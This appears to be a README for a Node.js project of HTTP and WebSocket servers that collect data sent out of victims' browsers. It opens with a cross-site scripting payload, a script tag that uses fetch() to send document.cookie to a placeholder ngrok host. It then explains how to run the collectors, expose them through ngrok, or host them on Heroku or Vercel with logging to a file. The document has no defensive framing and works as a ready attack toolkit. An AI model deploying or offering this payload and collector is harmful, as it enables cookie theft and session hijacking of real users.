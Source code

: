 ## info
http server capture user data by either sending the data in a query or in the body
```js
  <script>
      fetch(`https://NGROK-URL?cookie=${encodeURIComponent(document.cookie)}`)
  </script>
```

_____________________________

### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://NGROK_URL  instead of https://NGROK_URL for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 

